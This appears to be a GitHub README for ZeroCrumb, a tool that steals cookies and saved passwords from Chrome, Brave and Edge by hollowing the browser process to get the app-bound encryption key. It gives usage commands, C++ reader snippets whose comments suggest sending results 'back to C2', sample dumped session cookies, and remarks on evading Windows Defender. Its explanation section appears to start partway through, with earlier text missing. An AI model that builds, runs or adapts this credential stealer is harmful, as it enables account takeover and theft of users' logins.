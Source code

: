 
# ZeroCrumb

Dumping App Bound Protected Credentials & Cookies Without Privileges.

## Explanation

After this, ZeroCrumb decrypts the cookies/passwords for the specified browser with the key fetched earlier.

## Merits With The Named Pipe Approach
Usage of named pipes in ZeroCrumb allows any program, As long as it can use the Windows API, To connect to the ZeroCrumb named pipe and read the App Bound Key from it.

## Using ZeroCrumb As A Library
If you want to use ZeroCrumb as a library, You will need to compile a DLL that exports a function that does the hollowing of chrome with the key dumper. You might also need to embed the key dumper PE in the .rsrc section of the compiled DLL and later fetch it with the application resources Windows APIs.

## Usage
You can run this in any directory of your choice as long as the key dumper is in the same directory.
```
ZeroCrumb.exe <BROWSER_TYPE> <DUMP_TYPE>
```
```
Browser Types:
Chrome -> 0
Brave -> 1
Edge -> 2

Dump Types:
Cookies
Passwords
```

## Code Usage
ZeroCrumb provides an easy-to-use **CookieReader** & **PasswordReader** classes:
```cpp
auto reader = new CookieReader(cookiesPath.c_str(), key);

reader->initSqliteDb();
reader->prepare(queries::cookies);
reader->populateCookies();

for (auto& cookie : reader->cookies) {
string name = cookie->name;
string site = cookie->site;
string path = cookie->path;
string cookieValue = cookie->cookie;
// dump to file, send back to C2, etc...
}
```

```cpp
// keep in mind passwords aren't encrypted using the app bound key (yet)
auto reader = new PasswordReader(passwordsPath.c_str(), key);

reader->initSqliteDb();
reader->prepare(queries::passwords);
reader->populatePasswords();

for (auto& password : reader->passwords) {

auto name = password->name;
auto site = password->site;
auto passwordValue = password->password;
// dump to file, send back to C2, etc...
}
```

## Depedencies
```
sqlite3
libsodium
```

## Output Example
```
$ ZeroCrumb.exe 0 Cookies
[*] Reading From Pipe...
App Bound Key: 980f8ea8af3299d966a26242.....
============
Name: SIDCC
Site: .
Path: /
Cookie: AKEyXzXxD19T0KLMkrMC-eUXkrnEFi92OXq6rj1vydvmdL73olBVQGRQ4cG_hK5sqPhO1rLd1CM
============
Name: __Secure-1PSIDCC
Site: .
Path: /
Cookie: AKEyXzXXC8_MNDlVbAaw512aXu-QJkl0uKNW66rhjeufotzoJhT3OPN5TuCQnfKS8l57_WGfDw
============
Name: __Secure-3PSIDCC
Site: .
Path: /
Cookie: AKEyXzVVySM4FWl9itegCN2evcSmBvGc7_iXHqkKZ6VYPKmR--_LsHx1Aflar6SU4nyJiDaFq028
============
Name: udid
Site: .
Path: /
Cookie: 0dd5b8bb-8c5b-47f3-87f9-1db8fa7d885f
============
```

## Notes
You can modify ZeroCrumb to work with any type of credential other than cookies & passwords.

## Issues
- Debug build doesn't output the correct key

## Disclaimer
This is by no means the most stealthy implementation of this bypass, It can get detected by checking for specific strings, hooking APIs, etc.

By the time I'm testing this, It got past Windows Defender but I haven't checked other AVs.

I'll leave making the bypass stealthier as an exercise for the user if this bypass implementation gets signatured in the future.

## Credits



